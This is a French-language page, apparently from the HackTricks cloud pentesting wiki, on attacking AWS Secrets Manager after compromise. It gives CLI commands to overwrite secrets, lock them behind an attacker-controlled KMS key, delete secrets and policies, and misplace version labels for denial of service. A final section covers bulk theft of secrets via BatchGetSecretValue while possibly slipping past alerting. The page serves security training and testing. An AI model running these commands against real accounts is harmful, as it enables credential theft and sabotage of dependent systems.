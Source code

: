 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Pour plus d'informations, voir :

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Lire les secrets

Les **secrets** eux-mêmes sont des informations sensibles, [consultez la page privesc](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) pour apprendre à les lire.

### DoS — Changer la valeur du secret

En changeant la valeur du secret, vous pourriez **DoS tous les systèmes qui dépendent de cette valeur.**

> [!WARNING]
> Notez que les valeurs précédentes sont également stockées, il est donc facile de revenir à la valeur précédente.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Si l'attaquant dispose de la permission secretsmanager:UpdateSecret, il peut configurer le secret pour qu'il utilise une KMS key appartenant à l'attaquant. Cette clé est initialement configurée de manière à ce que n'importe qui puisse y accéder et l'utiliser, ce qui rend possible la mise à jour du secret avec la nouvelle clé. Si la clé n'était pas accessible, le secret n'aurait pas pu être mis à jour.

Après avoir changé la clé du secret, l'attaquant modifie la configuration de sa clé pour que seul lui puisse y accéder. Ainsi, dans les versions suivantes du secret, celui-ci sera chiffré avec la nouvelle clé et, comme il n'y aura pas d'accès à cette clé, la possibilité de récupérer le secret sera perdue.

Il est important de noter que cette inaccessibilité n'interviendra que dans les versions ultérieures, après que le contenu du secret aura changé, puisque la version actuelle est encore chiffrée avec la KMS key originale.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Suppression de Secret

Le nombre minimum de jours pour supprimer un Secret est de 7.
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Il est possible de restaurer un secret, ce qui permet de récupérer des secrets programmés pour suppression, car la période minimale de suppression des secrets est de 7 jours et la maximale de 30 jours. Associé à la permission secretsmanager:GetSecretValue, cela permet de récupérer leur contenu.

Pour récupérer un secret en cours de suppression, vous pouvez utiliser la commande suivante :
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Cette action permet de supprimer la resource policy qui contrôle qui peut accéder à un secret. Cela pourrait entraîner un DoS si la resource policy était configurée pour autoriser l'accès à un ensemble précis d'utilisateurs.

Pour supprimer la resource policy :
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Les états d'un secret sont utilisés pour gérer les versions d'un secret. AWSCURRENT marque la version active utilisée par les applications, AWSPREVIOUS conserve la version précédente pour pouvoir revenir en arrière si nécessaire, et AWSPENDING est utilisé dans le processus de rotation pour préparer et valider une nouvelle version avant de la rendre courante.

Les applications lisent toujours la version marquée AWSCURRENT. Si quelqu'un déplace ce label vers la mauvaise version, les apps utiliseront des identifiants invalides et peuvent échouer.

AWSPREVIOUS n'est pas utilisé automatiquement. Cependant, si AWSCURRENT est supprimé ou réaffecté incorrectement, il peut sembler que tout fonctionne toujours avec la version précédente.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}





### Exfiltration massive de secrets via BatchGetSecretValue (jusqu'à 20 par appel)

Abusez de l'API Secrets Manager BatchGetSecretValue pour récupérer jusqu'à 20 secrets dans une seule requête. Cela peut réduire fortement le volume d'appels API par rapport à l'itération avec GetSecretValue pour chaque secret. Si des filtres sont utilisés (tags/name), la permission ListSecrets est également requise. CloudTrail enregistre toujours un événement GetSecretValue par secret récupéré dans le batch.

Permissions requises
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt sur les CMK utilisées par les secrets (si vous n'utilisez pas aws/secretsmanager)

> [!WARNING]
> Notez que la permission `secretsmanager:BatchGetSecretValue` n'est pas suffisante pour récupérer les secrets, vous avez également besoin de `secretsmanager:GetSecretValue` pour chaque secret que vous souhaitez récupérer.

Exfiltrer par liste explicite
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate par filtres (tag key/value or name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Gestion des échecs partiels
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Impact
- Accès rapide “smash-and-grab” à de nombreux secrets avec moins d'appels API, pouvant potentiellement contourner les alertes configurées pour détecter les pics de GetSecretValue.
- Les logs CloudTrail incluent toujours un événement GetSecretValue par secret récupéré par le lot.
